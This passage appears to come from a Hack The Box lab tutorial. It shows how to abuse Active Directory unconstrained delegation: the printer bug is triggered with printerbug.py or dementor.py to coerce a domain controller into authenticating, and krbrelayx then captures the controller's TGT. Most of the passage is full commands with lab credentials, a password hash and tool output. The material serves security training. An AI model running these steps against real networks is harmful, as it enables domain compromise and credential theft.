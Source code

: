 **Note:** If we execute `krbrelayx.py` from PwnBox it will get an error for the HTTP server, as PwnBox by default use this port. Even if we have this error, it will not affect the use of the tool for this case.

Then we leverage the printer bug. We can use [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) or [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) available with krbrelayx.

#### Leveraging the Printer Bug with printerbug.py
```shell-session
slomkm@htb[/htb]$ python3 printerbug.py inlanefreight.local/carole.rose:jasmine@10.129.205.35 roguecomputer.inlanefreight.local

[*] Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Attempting to trigger authentication via rprn RPC at 10.129.205.35
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

Alternatively we can use `dementor.py`, instead of `printerbug.py`:

#### Leveraging the Printer Bug with dementor.py
```shell-session
slomkm@htb[/htb]$ python dementor.py -u pixis -p p4ssw0rd -d inlanefreight.local roguecomputer.inlanefreight.local dc01.inlanefreight.local

[*] connecting to dc01.inlanefreight.local
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] done!
```

**Note:** We don't need to use both tools, only one suffices.

This triggered an authentication attempt from `DC01` to our attacking host, and the tool automatically extracted the TGT embedded inside the TGS ticket.

#### Krbrelayx performing the Attack
```shell-session
slomkm@htb[/htb]$ sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.1.207
[*] Got ticket for DC01$@INLANEFREIGHT.LOCAL [krbtgt@INLANEFREIGHT.LOCAL]
[*] Saving ticket in DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
[*] SMBD: Received connection from 10.129.1.207
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.1.207
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
```

